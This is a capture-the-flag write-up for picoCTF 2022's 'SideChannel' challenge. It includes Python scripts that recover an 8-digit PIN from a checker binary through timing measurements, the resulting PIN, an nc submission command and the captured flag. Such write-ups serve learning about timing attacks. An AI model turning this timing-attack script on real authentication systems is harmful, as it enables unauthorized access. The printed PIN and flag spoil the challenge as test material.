 ```yaml
---
title: "picoCTF 2022 SideChannel Writeup"
date: 2022-04-08T19:16:29+08:00
description: "PicoCTF 2022 forensics problem SideChannel writeup"
---
```

## The problem
![](https://s2.loli.net/2022/04/08/y8qCUfcs6dx4WpV.png)
[link to the problem](https://play.picoctf.org/practice/challenge/298?category=4&originalEvent=70&page=1)

### Hints
1. Read about "timing-based side-channel attacks."
2. Attempting to reverse-enginner or exploit the binary won't work
3. Run the attacks against the `pin_checker` binary

## Solution

### Running the binary
A problem that would likely occur when solving this problem is running the binary.

The binary provided by picoCTF is not compatible with my local machine(Macbook).
However, the binary could be easily executed within picoCTF's webshell.

First, download the binary:
```shell
wget https://artifacts.picoctf.net/c/149/pin_checker`
chmod +x ./pin_checker #give permission to run the binary
./pin_checker #run the pin checker binary
```
A prompt for an 8 digit code should be shown:
```
Please enter your 8-digit PIN code:
11111111
8
Checking PIN...
Access denied.
```

### Timing based side channel attack
In hint 1, we can see that we're supposed to look up "timining based side channel attack"

After some digging on the internet, you'll find that timing based side channel attacks refers to the behavior of certain programs where the timing of execution is different based on different inputs.

Suppose the pin checking function in our pin checker is implemented as the following:
```python
def check(PIN, inp):
  if len(PIN) != len(inp):
    return False
  for i in range(len(PIN)):
    if(PIN[i]!=inp[i]]):
      return False
  return True
```
This function will execute for a longer time if the match between user input and the correct PIN is longer.

Thus, we can write a simple script to verify this vulnerbility.

```python
import time, os
TEST_COUNT = 10
LEN = 8
CHOICES = "0123456789"
prefix = ""

for c in CHOICES:
  cur = prefix+c+'0'*(LEN-len(prefix)-1)
  foo = 0
  for _ in range(TEST_COUNT): # repeat TEST_COUNT times and get the average to improve accuracy
    start = time.time()
    os.system(f"echo '{cur}' | ./pin_checker > /dev/null")
    foo += (time.time()-start)
  avgtime = foo/TEST_COUNT
  print(f"{cur}: {avgtime}")
```

The results:

```
00000000: 0.23883512020111083
10000000: 0.2588793277740479
20000000: 0.25079033374786375
30000000: 0.28905391693115234
40000000: 0.4896090030670166
50000000: 0.27194507122039796
60000000: 0.24216597080230712
70000000: 0.268372631072998
80000000: 0.2515885591506958
90000000: 0.25005943775177003
```

As we can see, guesses starting with '4' takes significantly longer to execute compared to guesses starting from all the other numbers. The exploit is working.

Therefore, instead of manually testing this technique for 8 times, we could instead automate this by modifying our program.

```python
import time, os
TEST_COUNT = 4 # set this to a lower number for faster results
LEN = 8
CHOICES = "0123456789"

def check(prefix):
  mxtime = -1
  res = ''
  for c in CHOICES:
    cur = prefix+c+'0'*(LEN-len(prefix)-1)
    foo = 0
    for _ in range(TEST_COUNT): # repeat TEST_COUNT times and get the average to improve accuracy
      start = time.time()
      os.system(f"echo '{cur}' | ./pin_checker > /dev/null")
      foo += (time.time()-start)
    avgtime = foo/TEST_COUNT
    if avgtime>mxtime:
      mxtime = avgtime
      res = c
  return res


def main():
  prefix = ''
  for i in range(7):
    c = check(prefix)
    prefix+=c
    print(c)
  # Check the final number(do not hide the results)
  for c in CHOICES:
    cur = prefix+c
    print(f"------ trying {cur} --------")
    os.system(f"echo '{cur}' | ./pin_checker")

main()
```

After running the program, you should see the results:
```
4
8
3
9
0
5
1
------ trying 48390510 --------
Please enter your 8-digit PIN code:
8
Checking PIN...
Access denied.

...

------ trying 48390513 --------
Please enter your 8-digit PIN code:
8
Checking PIN...
Access granted. You may use your PIN to log into the master server.

... 

------ trying 48390519 --------
Please enter your 8-digit PIN code:
8
Checking PIN...
Access denied.
```
When checking for the pin `48390513`, "access granted" as shown.
Finally, we can take the pin, and get the flag from the server.
```shell
echo 48390513 | nc saturn.picoctf.net 53932
```

The results:

```
Verifying that you are a human...
Please enter the master PIN code:
Password correct. Here's your flag:
picoCTF{t1m1ng_4tt4ck_18704dda}
```
thus the flag is `picoCTF{t1m1ng_4tt4ck_18704dda}`

